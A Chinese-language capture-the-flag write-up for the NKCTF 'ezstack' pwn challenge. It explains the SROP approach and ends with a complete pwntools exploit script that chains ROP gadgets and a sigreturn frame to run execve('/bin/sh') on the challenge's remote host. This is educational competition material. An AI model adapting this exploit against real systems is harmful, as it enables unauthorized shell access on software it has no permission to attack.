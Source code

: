 ```yaml
---
title: nkctf_ezstack
date: 2023-03-26 22:05:12
categories: 
- pwn_wp
tags: 
- pwn
- ROP
- SROP
---
```


nkctf的ezstack，走SROP。

<!-- more -->

没开RELRP、Canary和PIE

```sh
[*] '/home/a1ph0nse/PwnPractice/CtfGame/NK/ezstack/ez_stack'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

找`gadget`找到了这些，`0xf`对应的系统调用是`sigreturn`，看来应该是走SROP了

```asm
0x0000000000401147 : mov eax, 0xf ; ret
0x0000000000401146 : mov rax, 0xf ; ret
```

要通过SROP执行`execve("/bin/sh\x00",0,0)`，需要找到`"/bin/sh\x00"`的地址，但程序中没有，需要我们自行写入。

但程序唯一一次写入的是栈上，有`ASLR`没办法定位，这里利用寄存器留下的值并通过**ROP**设置部分参数再次执行`sys_read`，将`"/bin/sh\x00"`写入`bss`段。（当然**也可以利用SROP直接执行`SYS_READ`写入**）

之后通过SROP执行`execve("/bin/sh\x00",0,0)`即可`get shell`。

找到的wp大多是py2的，之前也没试过用py3写SROP，这里的应该用`bytes(frame)`转化`frame`的类型

**exp：** 

```py
from pwn import*
context(log_level='debug',os='linux',arch='amd64')
filename='ez_stack'
elf=ELF('./'+filename)
#libc=ELF('')
# p=process('./'+filename)
p=remote('node.yuzhian.com.cn',34603)

s       = lambda data               :p.send(data)
sl      = lambda data               :p.sendline(data)
r       = lambda num=4096           :p.recv(num)
rl      = lambda num=4096           :p.recvline(num)
ru      = lambda x                  :p.recvuntil(x)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {}'.format(name, addr))

def debug(cmd='\n'):
  gdb.attach(p,cmd)
  pause()
    
mov_rax_0xf=0x0000000000401146
syscall=0x000000000040114e
mov_rax_0_pop_rbp=0x00000000004011f0
pop_rdi=0x0000000000401283
pop_rsi_r15=0x0000000000401281
bss_addr=elf.bss()
frame = SigreturnFrame()
frame.rax = 59
frame.rdi = bss_addr
frame.rip=syscall
r()
payload=b'a'*0x18+p64(pop_rsi_r15)+p64(bss_addr)*2+p64(mov_rax_0_pop_rbp)+p64(bss_addr)+p64(syscall)
payload+=p64(mov_rax_0xf)+p64(syscall)
payload+=bytes(frame)
# debug()
s(payload)
s("/bin/sh\x00")

itr()

```

